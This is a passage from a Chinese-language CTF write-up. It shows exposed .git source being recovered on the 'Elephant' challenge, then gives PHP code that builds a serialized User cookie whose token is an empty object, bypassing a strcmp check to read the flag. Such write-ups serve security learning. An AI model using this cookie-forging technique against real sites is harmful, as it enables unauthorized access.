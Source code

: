 可以在根目錄找到 `5qu1rr3l_15_4_k1nd_0f_b16_r47.txt` 讀出來就是 flag

![](https://i.imgur.com/LM4TrQe.png)

![](https://i.imgur.com/uZtX7ZT.png)

* 題外話
	* postman 可以直接 import curl 的指令

![](https://i.imgur.com/jIs3Ymy.png)
![](https://i.imgur.com/d3aUi1x.png)
![](https://i.imgur.com/5eaRDT7.png)

### Elephant

這題一開始畫面有個輸入框，隨意輸入後可以發現上頭有個隱藏的小字

![](https://i.imgur.com/gx0iefC.png)

嘗試了一些常見的目錄後可以發現存在 `.git` 目錄，並且可以讀取目錄內的檔案

![](https://i.imgur.com/SNOoMOL.png)
![](https://i.imgur.com/O4Bzp2Y.png)

可以使用[工具](https://github.com/internetwache/GitTools)把 git repo 載下來，可以看到[原始碼](https://pastebin.com/mdcmDSLM)

瀏覽一下原始碼後發現，它會把輸入的名稱用來建構 `User` 然後序列化後再 base64 放在 cookie 裏

![](https://i.imgur.com/rZYIs5V.png)

如果 `$user->canReadFlag()` 是 true 的話會印出 flag

![](https://i.imgur.com/aaT62hT.png)

而 `User` 要在 `strcmp($flag, $this->token) == 0` 時才是 true

![](https://i.imgur.com/SYt0hOT.png)

想法：`strcmp()` 再與空物件比較會是 == 0，[Example](http://sandbox.onlinephpfunctions.com/code/d475b9eb264f535e8e722069732bcab198d452cb)
所以可以把 `token` 變成是空物件，這樣就可以通過 `canReadFlag()` 了

```php
<?php
class A {}

class User {
    public $name;
    private $token;

    function __construct($name) {
        $this->name = $name;
        $this->token = new A;
    }

    function canReadFlag() {
        return strcmp($flag, $this->token) == 0;
    }
}

$user = new User("1234");
echo serialize($user)
?>
```